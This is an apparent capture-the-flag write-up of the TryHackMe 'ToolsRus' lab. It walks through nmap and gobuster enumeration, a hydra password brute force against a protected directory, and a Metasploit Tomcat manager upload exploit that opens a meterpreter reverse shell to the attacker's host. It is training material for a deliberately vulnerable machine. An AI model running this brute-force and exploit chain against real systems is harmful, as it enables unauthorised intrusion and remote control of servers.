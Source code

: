 # ToolsRus
> 4lch3my | March 09, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/toolsrus)

## Tasks
##### 1. ToysRus
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

To start, I use [nmap] which is default option on the perosnal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-03-09 00:50 GMT
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (MACHINE_IP)
Host is up (0.00066s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:99:f5:94:27:2c:18:9e:ad:03:ef:e8:2e:33:48:40 (RSA)
|   256 4c:73:c5:35:de:02:26:07:fe:dd:92:ed:38:2c:3f:7c (ECDSA)
|_  256 49:d0:53:8b:7c:99:a6:21:7d:40:6c:74:9d:b7:90:80 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 02:5B:94:C2:14:BD (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=3/9%OT=22%CT=1%CU=40054%PV=Y%DS=1%DC=D%G=Y%M=025B94%TM
OS:=64092D51%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```
We see 4 open ports: `22 - SSH`, `80 - HTTP`, `1234 - HTTP` & `8009 - ajp13` what is an Apache service running. Before we visit the webpages lets run a quick adn dirty `GoBuster` scan with: `gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`on port 80:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/08 23:56:41 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2023/03/08 23:57:10 Finished
===============================================================
```

And on port `1234`: `gobuster dir -u http://MACHINE_IP:1234/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://MACHINE_IP:1234/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/03/09 01:00:14 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
===============================================================
2023/03/09 01:00:46 Finished
===============================================================
```
Time to visit all the directorys. Let's go!
<br>

Fist the main page: `http://MACHINE_IP/`. Empty!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/ToolsRUs.PNG?raw=true)

Next will be: `http://MACHINE_IP/guidelines/`. And we found our username!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/bob.PNG?raw=true)

And finally: `http://MACHINE_IP/protected`. We get stopped by an authentication popup asking for a username:password combination. Time for some good old bruteforcing with `hydra`.
<br>

We already know our user, `bob`, `MACHINE_IP`, and `/protected/` directory so we can start a `http-get` attack against our machine with the wordlist of our choise. As this is a `THM machine`, we suspect that the password will be located within the usual `rockyou.txt` file. To to run the attack: `hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.241.174 http-get /protected/`.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2023-03-09 00:11:04
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.241.174:80//protected/
[80][http-get] host: 10.10.241.174   login: bob   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-03-09 00:11:17
```

Only after a few seconds we find our `password` for the user `bob`. Time to log in to the password protected section of this web server.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/rabbit_hole.PNG?raw=true)

And that's the end of that page. Moving on to the `http://MACHINE_IP:1234/`, where we are greated with the `Apache Tomcat/7.0.88` default page.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUs/images/Tomcat.PNG?raw=true)

After a quick `Google` or `ChatGPT` seearch we can see that this app is quite old and has multiple `CVE's` dedicated to it. Seems like the website admin did not update this for a long time. Making our lifes easier I see... Moving on to actually getting on to this machine and grabing the final flag. As instructed by the box, we will use `Metasploit` to answer the last two questions. 
<br>

After switching to the `Metasploit Console` with the command `mfconsole`, we can search for Tomcat vulnerabilities in the databased stored in the app: `msf6 > search Tomcat`

```
Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   auxiliary/dos/http/apache_commons_fileupload_dos                2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   1   exploit/multi/http/struts_dev_mode                              2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   2   exploit/multi/http/struts2_namespace_ognl                       2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3   exploit/multi/http/struts_code_exec_classloader                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   4   auxiliary/admin/http/tomcat_ghostcat                            2020-02-20       normal     Yes    Apache Tomcat AJP File Read
   5   exploit/windows/http/tomcat_cgi_cmdlineargs                     2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   6   exploit/multi/http/tomcat_mgr_deploy                            2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   7   exploit/multi/http/tomcat_mgr_upload                            2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   8   auxiliary/dos/http/apache_tomcat_transfer_encoding              2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   9   auxiliary/scanner/http/tomcat_enum                                               normal     No     Apache Tomcat User Enumeration
   10  exploit/linux/local/tomcat_ubuntu_log_init_priv_esc             2016-09-30       manual     Yes    Apache Tomcat on Ubuntu Log Init Privilege Escalation
```

The 6th `exploit` on the list `/multi/http/tomcat_mgr_deploy` seems to be exactly what we need. Let's switch to it and configure it:

```
msf6 > use exploit/multi/http/tomcat_mgr_uplo
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.241.174
RHOSTS => 10.10.241.174
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
```
Now after it is configured correctly, we can run it:

```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HOST_IP:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying l1BnwvSyQFkgg2c8bgBYXr...
[*] Executing l1BnwvSyQFkgg2c8bgBYXr...
[*] Undeploying l1BnwvSyQFkgg2c8bgBYXr ...
[*] Sending stage (58851 bytes) to MACHINE_IP
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HOST_IP:4444 -> MACHINE_IP:41378) at 2023-03-09 00:45:54 +0000

meterpreter >
```

Success we have access! We can now grab the flag and complete this room!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20ToolsRUS/images/flag.PNG?raw=true)

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeups of mine or interetsed in some of my codeing work, please feel free to look around my GitHub page! Happy hacking! - 4lch3myí